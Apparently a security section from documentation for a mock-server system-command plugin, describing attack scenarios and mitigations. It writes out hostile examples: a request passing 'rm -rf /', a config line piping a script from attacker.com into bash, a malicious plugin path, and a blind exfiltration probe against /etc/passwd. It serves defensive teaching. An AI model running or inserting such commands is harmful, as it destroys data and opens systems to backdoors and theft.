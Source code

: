 ## Attack Scenarios

### Scenario 1: User Input in Plugin Args
```yaml
# NEVER DO THIS:
- Rule:
    name: "Dangerous"
    when:
      matchesUris:
        - uri: ^/api/execute$
    then:
      functionAs: "Mock"
      body:
        result: "{{SystemCommand}}"
    with:
      plugins:
        - name: "SystemCommand"
          path: "./plugins/system_callout/target/release/libsystem_callout.dylib"
          args: ["{{user_input}}"]  # ❌ CATASTROPHIC
```

**Attacker sends:**
```bash
curl -X POST http://server/api/execute -d '{"user_input": "rm -rf /"}'
```

### Scenario 2: Configuration Injection
If configuration files are dynamically generated or user-controllable:
```yaml
# Attacker modifies nrule.yml:
args: ["bash", "-c", "curl http://attacker.com/backdoor.sh | bash"]
```

### Scenario 3: Plugin Path Manipulation
```yaml
# If plugin paths are controllable:
path: "/tmp/malicious-plugin.so"  # Attacker's compiled plugin
```

### Scenario 4: Time-Based Blind Exfiltration
```yaml
# Exfiltrate data character by character:
args: ["bash", "-c", "if [ $(cut -c1 /etc/passwd) = 'r' ]; then sleep 5; fi"]
```

## Mitigation Strategies

### 1. ✅ Never Use in Production
This plugin is for **demonstration and testing only**. Do not deploy to production.

### 2. ✅ Input Validation
```rust
// If you must use system callouts, validate EVERYTHING:
fn validate_command(cmd: &str) -> bool {
    // Whitelist only
    matches!(cmd, "date" | "whoami" | "uptime")
}

fn validate_file_path(path: &str) -> bool {
    // Only allow specific directories
    path.starts_with("/tmp/safe-dir/") && !path.contains("..")
}
```
